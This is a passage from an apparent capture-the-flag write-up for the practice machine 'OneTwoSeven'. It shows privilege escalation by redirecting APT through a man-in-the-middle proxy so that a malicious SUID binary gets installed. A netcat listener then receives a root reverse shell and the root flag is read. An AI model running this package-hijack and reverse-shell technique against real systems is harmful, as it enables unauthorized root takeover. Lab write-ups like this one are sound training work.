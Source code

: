 #### 9.1. Point repository 

a. Load local proxy (`0.0.0.0:8080`)
```
# mitmproxy
```

b. Local hosts file (for MiTM)
```
# tail -n2 /etc/hosts
127.0.0.1 packages.onetwoseven.htb
```


#### 9.2. Deploy SUID binary via APT update/upgrade
```
www-admin-data@onetwoseven:/$ ls -la /usr/bin/data
ls: cannot access '/usr/bin/data': No such file or directory
www-admin-data@onetwoseven:/$ sudo http_proxy='http://10.10.14.11:8080' apt-get update
www-admin-data@onetwoseven:/$ sudo http_proxy='http://10.10.14.11:8080' apt-get upgrade
www-admin-data@onetwoseven:/$ ls -la /usr/bin/data
-rwsr-xr-x 1 root root 756080 Apr 30  2019 /usr/bin/data
www-admin-data@onetwoseven:/$ /usr/bin/data
```


#### 9.3. Root shell
```
# nc -nlvp 9999
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.133.
Ncat: Connection from 10.10.10.133:43318.
root@onetwoseven:/# id
id
uid=0(root) gid=35(www-admin-data) groups=35(www-admin-data)
root@onetwoseven:/# cat /root/root.txt
cat /root/root.txt
2d380a25a8e3bfc095abd9e691841048
```
